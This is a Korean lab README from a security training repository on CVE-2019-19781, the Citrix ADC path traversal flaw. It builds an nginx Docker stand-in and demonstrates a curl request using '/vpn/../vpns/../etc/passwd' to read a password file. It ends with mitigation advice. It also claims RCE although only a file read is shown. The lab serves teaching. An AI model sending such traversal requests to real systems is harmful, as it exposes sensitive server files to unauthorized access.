

# CVE-2019-19781(Citrix ADC Path Traversal Vulnerability)

- **작성자** : 화이트햇 3기 6반 김현진
- **github** : https://github.com/hyunjin0334/kr-vulhub/tree/main/CVE-2019-19781
- **Pull Requests** : 


## 개요
- **CVE 번호** : CVE-2019-19781

- **공개 날짜** : 2019년 12월 17일
  
- **취약점 요약** : Citrix ADC(Application Delivery Controller)는 WEB/WAN 가속, 웹-방화벽, L7 DDoS 방어 등 다양한 기능이 포함된 올인원 제품입니다. Citrix Gateway는 원격 엑세스를 단순하게 만들어주며, 앱과 리소스에 대한 액세스를 보호합니다.  
이 두 장비의 일부 버전에서 입력값에 대한 적절한 검증이 부족하여 공격자가 임의 코드를 실행시킬 수 있는 취약점이 발견되었습니다. Directory Traversal을 허용하는 문제점이 발견된 것입니다. /vpns/ 폴더에 대한 검증이 부족하여 민감한 파일을 읽거나 원격 코드를 실행(RCE)시킬 수 있습니다.

- **영향을 받는 버전** : (2020년 7월 이전에 지원된 버전)
  - Citrix ADC 13.0 이하
  - Citrix ADC 12.1 이하
  - Citrix ADC 12.0 이하
  - Citrix ADC 11.1 이하
  - Citrix ADC 10.5 이하


## 환경 구성 
- **Base Image** : nginx:1.17-alpine
  
    - **선정 이유** : Citrix ADC는 라이선스 없이 사용할 수 없으며 Base image가 존재하지 않기 때문에 직접 사용할 수 없었습니다. 따라서 오픈 웹서버이며 경로 매핑을 자유롭게 할 수 있는 것을 선정하여 실습 환경을 구성하여야 했습니다. nginx는 경로 매핑을 자유롭게 할 수 있기 때문에 Direatory Traversal 환경을 구축할 수 있었습니다. 또한 alpine 기반 이미지를 통해 빌드 속도와, 가벼운 Docker환경을 구축하고자 하였습니다.
 
- **구성 파일** :
  - Dockerfile
  - docker-compose.yml
  - nginx.conf
  - html/index.html
  - html/etc/passwd
 
- **Directory**
```text
cve201919781/
├── Dockerfile
├── docker-compose.yml
├── nginx.conf
└── html/
    ├── index.html
    └── etc/
        └── passwd
```

## 익스플로잇 및 결과 
- **1. Docker 빌드 및 실행** :
```
docker-compose up --build
```
  

- **2. 브라우저 접속 확인** :
```
http://localhost:8080/
```
  
정상적으로 접속되면 'CVE-2019-19781 Test Page'가 뜨게 됩니다.   

- **3. curl을 이용하여 Directory Traversal 공격 시도** :
```
curl http://localhost:8080/vpn/../vpns/../etc/passwd
```
해당 명령어는 curl을 통해 'http://localhost:8080'에 '/vpn/../vpns/../etc/passwd'요청을 하는 것입니다. 경로조작을 통해 민감정보인 서버 내부의 /etc/passwd와 같은 사용자 계정 정보가 저장된 중요한 파일을 읽어내려는 공격입니다.

- **4. 공격 결과 출력** :
``` 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
   
/etc/passwd 안의 정보가 그대로 출력되어 공격에 성공하게 됩니다. 


## 정리
해당 취약점을 통해 민감 정보가 들어 있는 서버 내부의 파일에 인증 없이 접근이 가능했습니다. 해당 PoC에서는 내부의 민감 정보 파일에 정보를 읽도록 하였습니다. 간단히 원격 코드 실행(RCE)을 할 수 있었으며, 인증이 부족하다는 것으로 가장 민감한 정보까지 획득이 가능했습니다.   
취약점이 발견될 당시 /.../이 포함된 요청이나 /vpns/에 접근하려는 요청을 차단하길 권장하였습니다. 또한 snort 탐지 룰을 적용하여 모니터링하고 차단하기를 권장하였습니다. 현재는 보안 패치를 적용하여 해당 취약점에 대해 조치를 취한 상태입니다.

## 참고 자료 
- [CVE-2019-19781 Detail](https://nvd.nist.gov/vuln/detail/cve-2019-19781)
- [Citrix ADC and Gateway 취약점 (CVE-2019-19781)](https://ggonmerr.tistory.com/141)
- [[해외동향] Citrix 보안취약점(CVE-2019-19781) 점검도구 공개](https://www.cyberone.kr/news-trends-detail?id=56192&page=1)
- [보안 권고: 임의 코드 실행으로 이어지는 Citrix Application Delivery Controller 및 Citrix Gateway의 취약성(CVE-2019-19781)](https://www.silverfort.com/ko/blog/recommended-mitigation-steps-for-vulnerability-in-citrix-adc-and-citrix-gateway-cve-2019019781/)
- [Citrix Application Delivery Controller, Citrix Gateway, and Citrix SD-WAN WANOP appliance Security Update](https://support.citrix.com/s/article/CTX276688-citrix-application-delivery-controller-citrix-gateway-and-citrix-sdwan-wanop-appliance-security-update?language=en_US)
- [Nginx 개념 및 nginx.conf 설정](https://narup.tistory.com/209)
- [Citrix ADC and Gateway RCE Vulnerability (CVE-2019-19781)](https://peemangit.tistory.com/399)
- [New Snort rules protect against recently discovered Citrix vulnerability](https://blog.talosintelligence.com/snort-rules-cve-2019-19781/)
-[Detecting Citrix CVE-2019-19781](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-031a)


